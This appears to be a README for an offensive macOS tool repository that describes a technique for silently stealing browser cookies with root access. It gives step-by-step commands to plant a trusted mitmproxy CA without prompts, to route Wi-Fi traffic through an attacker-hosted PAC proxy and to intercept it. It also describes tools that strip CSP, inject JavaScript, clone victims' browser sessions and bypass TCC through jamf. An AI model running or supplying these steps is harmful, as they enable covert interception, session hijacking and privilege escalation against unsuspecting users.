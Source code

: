 # Blender
This repository contains the technique presented at SOCON2025 for stealing cookies silently from MacOS Sequoia with only root privileges

## Description

The technique is composed of adding a certificate (mitmproxy custom CA) to the System keychain without any trust, which doesn't alert the user with any prompts. Next, we update com.apple.trust-settings.user authorizationDb with allow.
We create another Keychain and add the same certificate with full trust. When we go back to check the certificate in the System Keychain it should be fully trusted.

## Steps
1. sudo security authorizationdb write com.apple.trust-settings.user allow
2. sudo security add-certificates -k /Library/Keychains/System.keychain ca.crt
3. security add-trusted-cert -p ssl -p smime -p eap -p IPSec -p codeSign -p timestamping -k custom.keychain -p basic ca.crt
4. sudo security list-keychains -s custom.keychain ~/Library/Keychains/login.keychain
5. sudo networksetup -setautoproxyurl Wi-Fi https://yourdomain/proxy.pac
6. sudo networksetup -setautoproxystate Wi-Fi on 
7. mitmproxy --listen-host 0.0.0.0 --listen-port 8080 --set block_global=false

## CookieFeeder

This is another tool to help you disable all the protections from the intercepted traffic (CSP, Integrity, etc) and inject abitrary Javascript. You can use it in combination with [https://github.com/](https://github.com/MythicAgents/bowser). It also a chrome extension that allows you to clone the target's browser by simply embedding the captured cookies.

## TCC Bypass

tcc.py is an MITMProxy script that can be used to bypass TCC. By hijacking the response of the "sudo jamf recon" command. It is possible to control what is executed by the jamf binary. The jamf binary is usually deployed with a PPPC rule to grant FDA: anything executed by the binary inherits its privileges.
